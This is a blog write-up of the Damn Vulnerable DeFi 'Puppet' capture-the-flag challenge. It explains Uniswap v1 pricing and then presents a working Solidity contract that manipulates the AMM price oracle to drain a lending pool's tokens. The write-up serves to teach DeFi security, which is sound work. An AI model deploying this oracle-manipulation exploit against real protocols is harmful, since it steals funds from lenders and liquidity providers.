

Welcome back! This will be a series of three posts on the Uniswap challenges from [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/). I've just finished [Puppet V3](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/) and learned a lot about the protocol, so I thought it would be nice to write down what I understood and see if I can explain it clearly.

> "You do not really understand something unless you can explain it to your grandmother."
>
> *— Albert Einstein*


No, Einstein didn't actually say that.


## Uniswap (very approximate) overview

*Disclaimer: this is not a real explanation of the protocol. If you want to understand it properly, I suggest reading the [Rare Skills Blog](https://rareskills.io/uniswap-v3-book).*

### What is Uniswap?

> In 2018, Hayden Adams created the Uniswap Protocol, a decentralized protocol that introduced a new way to exchange value online. By using Automated Market Makers (AMMs), the protocol enabled peer-to-peer trading of digital assets without the need for intermediaries or any central authority.

This (or something similar) is what I found when I searched for an explanation of the protocol. But, knowing almost nothing about decentralized finance, I had no idea what it meant.

The idea is actually simple: Uniswap (in its first version, which will be the focus of this post) lets you create exchanges between any ERC20 token and ETH. And what about Automated Market Makers? That just means all the exchanges are managed by smart contracts and fully automated (you don't say?), whereas other solutions rely on order books, which I don't know how they work, but I imagine something like:

* Alice: "Hey! I'm selling 1 token for 3 ETH, anyone interested??"
* Bob: "That's a scam! I'm willing to pay at most 2 ETH!"
* Charlie: "Hey Bob, I'll sell for 2 ETH!"
* *Bob and Charlie exchange and are happy; Alice is sad.*

**Achtung!** This *might* be an oversimplification of the actual protocol.

### How does it work?

It's pretty clear why an order-book solution can work, but **how does an automated solution work?** **How does it determine the “right” price? How does the price change?** **Where does the liquidity come from?** The answer to all these questions lies in the magic Uniswap curve $x \cdot y = k$. Except for the liquidity, that's just people providing tokens and ETH to the pool to earn fees — not so magical. But let's focus on the curve.

Consider an exchange between DVT (Damn Valuable Token, from the Damn Vulnerable DeFi challenges) and ETH. The exchange pool has reserves of both DVT and ETH: when a user wants to swap DVT for ETH they send DVT to the pool and the pool sends back ETH. **But how much ETH?** That's where the curve comes into play.

Call $x$ the amount of DVT in the pool and $y$ the amount of ETH. The exchange follows the invariant $k = x\cdot y$. This means that if we want to swap $\Delta x$ DVT, we will receive $\Delta y$ ETH such that $(x + \Delta x)(y - \Delta y) = k$ (ignoring fees). Visualized on the curve it looks something like this:




I know this is terrible, but I have no idea how to make decent graphs and insert them in markdown — any suggestions are very welcome.


Now you might ask, **Why this curve? Why not a random different one?** I don't know - that's why I called it magical - but probably they found it works well. It also makes sense on how the price is computed I guess.

Speaking of price: when we talk about price, we mean the price of the asset on the $x$-axis relative to the one on the $y$-axis, and it is computed as $p = \frac{y}{x}$. So in the example above, the price is initially $p_1 = \frac{y}{x} = 4$, meaning 1 DVT is worth 4 ETH. After the swap it becomes $p_2 = \frac{y - \Delta y}{x + \Delta x} = 1$. That's a huge price shift! **How can we avoid that?**

### The role of liquidity

Let's analyze the curve above. We are on $x \cdot y = 10^4$ and initially the reserves are 50 DVT and 200 ETH. Then we swap 50 DVT — an amount equal to the entire DVT reserve of the pool! — so it's not surprising this has a big impact on price. The problem here is that the pool has very low liquidity.

Suppose instead the curve was $x \cdot y = 10^{20}$ and the price was the same, i.e. reserves $x = 5\cdot 10^9$ and $y = 20\cdot 10^9$. If we make the same swap for 50 DVT, what happens?

$$
\begin{align*}
\Delta x &= 50 \\\\[1em]
x + \Delta x &= 5\cdot 10^9 + 50 \\\\[1em]
y - \Delta y = \frac{10^{20}}{5\cdot 10^9 + 50} &\simeq 19999999800 \\\\[1em]
\Delta y \simeq y - 19999999800 &= 200 \\\\[1em]
p_2 = \frac{y - \Delta y}{x + \Delta x} &\simeq 3.99999992
\end{align*}
$$

The price shifted from 4 to 3.99999992 with the same swap amount — much lower impact. So, the takeaway:

- __Low liquidity__ &rarr; high price impact and the possibility to manipulate the price in your favor.
- __High liquidity__ &rarr; well, it's just the opposite of the one above.

## Challenge Writeup

Now we should know enough to tackle the challenge! I will omit all the $10^{18}$ multipliers and work with normal decimal numbers. The important thing is to remember that the code uses multiplications and divisions by $10^{18}$ because ERC20 tokens handle decimals that way (I know it's not a satisfying explanation, but it's not that important).

### Challenge overview

The setting is simple:

* Uniswap v1 exchange pool between DVT and ETH, with initial reserves of 10 DVT and 10 ETH.
* DVT lending pool, with an initial balance of 100,000 DVT, that requires 2× the price of the borrowed amount in ETH (quite expensive).
* Player, with 1,000 DVT and 25 ETH.
* Goal: empty the lending pool and get all the tokens.

The lending pool uses the exchange as a price oracle:

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

Right now, if we wanted to borrow all 100,000 tokens from the pool, since the exchange price is 1, we'd need $100{,}000 \cdot 2 = 200{,}000$ ETH — which is just a bit more than we have.

### Manipulating the price

We can immediately notice that the exchange pool has very low liquidity and we hold 100 times the DVT reserve! This means we can easily lower the DVT price by swapping all our tokens. Let's see what happens if we swap all 1,000 DVT:

$$
\begin{align*}
k &= 100 \\\\[1em]
\Delta x &= 1000 \\\\[1em]
x + \Delta x &= 1010 \\\\[1em]
y - \Delta y = \frac{100}{1010} &\simeq 0.099 \\\\[1em]
p_2 = \frac{y - \Delta y}{x + \Delta x} &\simeq 0.000098
\end{align*}
$$

Now the ETH required to borrow the entire 100,000 DVT from the lending pool is $100{,}000 \cdot 0.000098 \cdot 2 = 19.6$, which is within our resources. In the actual attack the amount needed will be slightly higher (around 19.66) due to fees and rounding.

### The final contract

```solidity
contract Attacker {
    IUniswapV1Exchange public uniswapV1Exchange;
    PuppetPool public lendingPool;
    DamnValuableToken public token;
    address recovery;

    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;
    uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;
    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;

    constructor(address _uniswapV1Exchange, address _lendingPool, address _token, address _recovery) {
        uniswapV1Exchange = IUniswapV1Exchange(_uniswapV1Exchange);
        lendingPool = PuppetPool(_lendingPool);
        token = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function attack() external {
        token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
        uint256 tokensBought = uniswapV1Exchange.tokenToEthSwapInput(
            PLAYER_INITIAL_TOKEN_BALANCE,
            1, // min_eth
            block.timestamp * 2 // deadline
        );
        console.log("ETH received from Uniswap:", address(this).balance);
        console.log("Tokens bought from Uniswap:", tokensBought);
        console.log("Lending pool deposit required:", lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE));

        lendingPool.borrow{value: address(this).balance}(POOL_INITIAL_TOKEN_BALANCE, address(this));

        console.log("Player token balance after borrowing:", token.balanceOf(address(this)));

        token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);
    }

    receive() external payable {}
}
```

## Conclusion

This first challenge was quite simple and can be completed in a very intuitive way — without fully understanding Uniswap internals (which is exactly how I solved it at first). However, introducing the Uniswap curve and getting comfortable with price computation will be very useful for the next challenges. But before that, I might write a post about a chess tournament I recently played — we’ll see.

To be continued.
